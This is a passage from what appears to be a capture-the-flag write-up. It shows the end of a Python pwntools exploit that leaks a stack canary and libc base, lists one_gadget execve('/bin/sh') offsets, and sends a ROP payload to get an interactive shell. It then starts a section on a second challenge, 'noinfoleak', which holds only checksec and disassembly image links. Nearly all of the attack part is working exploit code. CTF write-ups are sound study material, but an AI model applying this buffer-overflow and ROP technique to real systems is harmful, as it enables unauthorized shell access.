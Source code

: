 ```python
print hex(canary)
io.recv(1)

leak = int(io.recv(12),16)
libcbase = leak - 0x20830
print hex(libcbase)
'''
0x45216    execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a    execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4    execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147    execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''
onegadget = 0x45216 + libcbase
popraxret = 0x0000000000033544 + libcbase

#debug()
payload = p64(0)*17 +p64(canary) + p64(0) + p64(popraxret) + p64(0) + p64(onegadget)
io.recv()
io.sendline('150')
io.recv()
io.send(payload)

io.interactive()
```

## noinfoleak

checksec:

![5cab425c4d034](https://i.loli.net/2019/04/08/5cab425c4d034.png)

main:

![5cab42901b2aa](https://i.loli.net/2019/04/08/5cab42901b2aa.png)

add:

![5cab42a8ad674](https://i.loli.net/2019/04/08/5cab42a8ad674.png)

edit:
